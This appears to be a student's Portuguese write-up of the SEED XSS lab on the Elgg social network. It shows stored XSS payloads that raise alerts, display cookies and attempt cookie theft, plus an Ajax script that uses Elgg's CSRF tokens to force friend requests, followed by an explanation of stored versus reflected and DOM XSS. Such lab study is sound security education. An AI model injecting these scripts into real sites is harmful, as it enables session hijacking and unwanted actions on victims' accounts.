






# Cross-Site Scripting (XSS) Attack Lab 
(Web Application: Elgg)

Para realizar este ataque, precisamos de configurar o ambiente de trabalho. Quando estiver de acordo com o guião, estamos prontos para dar início.

## Questão 1

### Task 1: Posting a Malicious Message to Display an Alert Window

Para a primeira tarefa, adicionamos o código abaixo ao campo "brief description" do perfil da Alice.

```
<script>alert('XSS');</script>
```

Isto resultou num popup da palavra _"XSS"_.

<br>






### Task 2: Posting a Malicious Message to Display Cookies

Nesta tarefa, alteramos o código que tínhamos escrito no campo da "brief description" da Alice para o apresentado abaixo, e inserímo-lo no mesmo campo, mas do Boby:

```
<script>alert(document.cookie);</script>
```

Assim que o fizemos, resultou num popup do valor da cookie do Boby. Concluímos que o código JavaScript foi bem executado.

<br>




###  Task 3: Stealing Cookies from the Victim’s Machine

Na tarefa anterior, podíamos apenas ver a cookie pelo user, mas não pelo attacker. O objetivo aqui é fazer com que Alice consiga ver as cookies de Boby.

Escrevemos o seguinte código no "about me" da Alice:

```
<script>document.write(’’);
</script>
```

Agora, quando visitamos o perfil do Boby, conseguimos ver as cookies dele.




### Task 4: Becoming the Victim’s Friend

Para criar o nosso HTTP GET request para "adicionar amigos", entramos na conta da Alice e adicionamos o Sammy.

Na foto em baixo conseguimos ver aquele amigo tem o valor de _59_.



Adicionamos o seguinte código à secção "About me" do Samy:

```
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
//Construct the HTTP request to add Samy as a friend.
var sendurl=...; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Depois fizemos login com as credenciais da Alice e verificamos se o Samy está adicionado como amigo.




Verificamos que está!


##### Task 4 questão 1: Explique o propósito das Linhas ➀ e ➁ e por que são necessárias.
As linhas ➀ e ➁ são necessárias porque, sem o token secreto e o valor de timestamp do site anexados à solicitação, esta não será considerada legítima. Assim, resultará num erro e o nosso ataque não será bem-sucedido.

##### Task 4 questão 2: Se a aplicação Elgg apenas disponibilizar o modo "Editor" para o campo "Sobre Mim", ou seja, não for possível alternar para o modo "Texto", ainda será possível lançar um ataque bem-sucedido?
Não, não será possível lançar um ataque bem-sucedido porque este modo codifica todos os caracteres especiais na entrada. Como o nosso código necessita de tags como <script>@</script> e outras, todas essas serão codificadas como dados e o código não será executado.


## Questão 2

## Modalidade de Ataque XSS: Stored (ou Persistente)
Este ataque enquadra-se na modalidade de Stored XSS porque o código malicioso é armazenado permanentemente no servidor, ou seja, o JavaScript malicioso é salvo no perfil de um utilizador (como a Alice ou o Samy). Quando outro utilizador (como o Boby) visualiza a página, o código é carregado e executado no navegador dele.

### Explicação
**Stored XSS:**
    O script malicioso é inserido em campos que armazenam conteúdo no servidor, como a secção "About Me" ou "Brief Description". Este conteúdo é então entregue a outros utilizadores quando visitam o perfil, resultando na execução do código malicioso no contexto do navegador da vítima. É o caso deste ataque, pois o script adicionado por Alice ou Samy é executado no navegador do Boby ou de outros utilizadores que visitam o perfil.

**Por que não é Reflected ou DOM XSS?**
   - **Reflected XSS** ocorre quando o código malicioso é incluído num URL e refletido na resposta da aplicação sem ser armazenado no servidor. Isso não se aplica nesta situação porque o código foi armazenado permanentemente.
   - **DOM-based XSS** acontece quando o script é executado diretamente no lado do cliente, manipulando o DOM do navegador, sem envolver a interação com o servidor. Este não é o caso visto que o script armazenado no servidor é servido como parte da página carregada.

